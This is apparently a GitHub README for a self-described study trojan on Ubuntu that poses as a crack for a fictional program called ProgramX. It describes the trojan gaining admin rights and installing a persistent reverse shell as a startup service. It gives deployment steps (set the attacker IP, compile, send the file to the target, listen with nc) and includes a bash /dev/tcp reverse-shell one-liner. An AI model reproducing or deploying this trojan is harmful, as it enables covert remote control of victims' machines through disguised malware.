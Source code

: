# Trojan - Crack Software
Basic trojan with command and control functionatilies for ubuntu based systems. This trojan was created for study porpuses only.

It emulates a scenario of a binarie that patches/cracks a ficticional legit software called ProgramX but inside has a malware. 
When the user download it, If he try to run it without admin privileges, it will not run and ask to be run again with admin privileges.
After being executed, the binarie will do it's legimitate work of patching/cracking ProgramX but will also install a reverse shell on the user's system.
The binare will create a shell script that runs the reverse shell and then add the first script as a service to be run at system startup. 

It was coded in C and Bash Scripting.

## How to use:

1 - Change the attacker IP Address and Port to connect in the source code (line 52).

```
bash -i >& /dev/tcp/attackerip/porttoconnect 0>&1 2>&1
```
2 - Compile code

3 - Download/Send the binarie to the target machine

4 - Give Read/Write/Execution permissions to the file

```
chmod +rwx programxpatch
```

5 - Open and listen to the port in your host (attacker host) using ncat or nc

6 - Run

![image](https://github.com/Smarttfoxx/softwarecracktrojan/assets/140526026/87100563-10fd-4327-bb0e-d1f37985f41f)

![image](https://github.com/Smarttfoxx/softwarecracktrojan/assets/140526026/66bd3c15-f172-4b7f-b15f-26252ed9b844)

